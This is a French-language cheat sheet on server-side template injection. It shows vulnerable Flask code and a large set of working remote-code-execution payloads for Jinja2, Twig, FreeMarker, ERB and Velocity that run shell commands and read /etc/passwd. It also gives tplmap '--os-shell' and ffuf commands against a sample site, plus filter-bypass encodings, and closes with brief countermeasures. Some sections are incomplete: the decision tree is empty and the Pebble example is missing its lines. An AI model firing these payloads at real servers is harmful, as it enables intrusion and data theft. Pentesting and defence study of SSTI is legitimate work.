

# SSTI — Server-Side Template Injection

Le Server-Side Template Injection (SSTI) survient quand une entrée utilisateur est directement concaténée dans un template avant son rendu, au lieu d'être passée comme variable. Il peut mener à de l'exécution de code arbitraire (RCE) sur le serveur.

## Principe

```python
# Code VULNÉRABLE — Jinja2 (Python/Flask)
@app.route("/greet")
def greet():
    name = request.args.get("name")
    template = f"Bonjour {name} !"           # ← Concaténation directe
    return render_template_string(template)   # ← name est rendu comme du code Jinja2

# Code SÛRET — name est une variable, pas du code
@app.route("/greet")
def greet():
    name = request.args.get("name")
    return render_template_string("Bonjour {{ name }} !", name=name)
```

**Détection basique :**
```
# Si l'URL /greet?name={{7*7}} retourne "Bonjour 49 !"
# → Le moteur de template interprète l'expression → SSTI confirmé
```

## Arbre de décision pour identifier le moteur



## Exploitation par moteur

### Jinja2 (Python)

```
# Accéder aux classes Python via l'arbre d'objets
# Trouver une classe utile (subprocess, os...)

# Payload de base — lire /etc/passwd
{{''.__class__.__mro__[1].__subclasses__()}}
# Donne la liste de toutes les sous-classes de object

# Trouver l'index de subprocess.Popen
{{''.__class__.__mro__[1].__subclasses__()[X]('id',shell=True,stdout=-1).communicate()}}

# Payload plus propre avec config
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}

# Via request dans Flask
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

# RCE complet
{{''.__class__.__mro__[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
```

```python
# Automatisation avec tplmap
# pip install tplmap
python tplmap.py -u "https://site.com/greet?name=*" --os-shell
```

### Twig (PHP)

```
# Lire des fichiers
{{'/etc/passwd'|file_get_contents}}

# Exécution de commande
{{['id']|map('system')|join}}

# Via filter
{{"id"|exec}}

# RCE propre
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

### FreeMarker (Java)

```
# Lecture de fichier
${product.getClass().getProtectionDomain().getCodeSource().getLocation()}

# RCE via freemarker.template.utility.Execute
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}

# Java Runtime
${"freemarker.template.utility.Execute"?new()("id")}
```

### ERB (Ruby)

```
<%= 7*7 %>                # Test
<%= `id` %>               # RCE via backtick (exécution shell)
<%= system("id") %>       # system()
<%= File.read('/etc/passwd') %>  # Lecture fichier
```

### Velocity (Java)

```
#set($str=$class.inspect("java.lang.Runtime").type)
#set($runtime=$str.getRuntime())
#set($process=$runtime.exec("id"))
$process.waitFor()
#set($inputStream=$process.getInputStream())
#foreach($i in [1..$inputStream.available()])
$inputStream.read()
#end
```

### Pebble (Java)

```



{{ "" | execute(cmd) }}
```

## Détection

```bash
# Payloads de détection multi-moteurs
{{7*7}}                    # Jinja2, Twig → 49
${7*7}                     # FreeMarker, Velocity → 49
#{7*7}                     # Ruby Slim → 49
<%= 7*7 %>                 # ERB → 49
*{7*7}                     # Spring Expression Language → 49
[[${7*7}]]                 # Thymeleaf → 49

# Tester aussi dans les headers HTTP (User-Agent, Referer, X-Forwarded-For)
# et dans les cookies

# Avec ffuf
ffuf -u "https://site.com/search?q=FUZZ" \
     -w ssti_payloads.txt \
     -mr "49"  # Chercher 49 dans la réponse

# Avec tplmap
python tplmap.py -u "https://site.com/greet?name=*"
# Détecte automatiquement le moteur et tente l'exploitation
```

## Bypass de filtres

```
# Filtre bloquant les {{ et }}
# Utiliser d'autres syntaxes selon le moteur
SSTI  # Jinja2 tag
{# commentaire #}                         # Jinja2 commentaire

# Filtre bloquant les mots-clés (class, mro, subclasses)
# Utiliser l'encodage ou la concaténation
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')...}}
# \x5f = _ → __globals__

# Accès via dictionnaire
{{''['\x5f\x5fclass\x5f\x5f']}}

# Utiliser request.args pour passer des payloads en paramètre
{{request.args.x1|attr(request.args.x2)...}}
# ?name={{request.args.x}}&x=__class__
```

## Contre-mesures

```python
# Ne JAMAIS interpoler des données utilisateur dans un template string
# MAUVAIS
render_template_string(f"Bonjour {user_input}")

# BIEN — passer comme variable
render_template_string("Bonjour {{ name }}", name=user_input)

# BIEN — utiliser des fichiers de templates séparés
render_template("greet.html", name=user_input)
# templates/greet.html : Bonjour {{ name }}

# Sandbox Jinja2 (si le rendu dynamique est vraiment nécessaire)
from jinja2.sandbox import SandboxedEnvironment

env = SandboxedEnvironment()
template = env.from_string("Bonjour {{ name }}")
result = template.render(name=user_input)
# La sandbox bloque l'accès aux attributs privés et aux appels dangereux
```
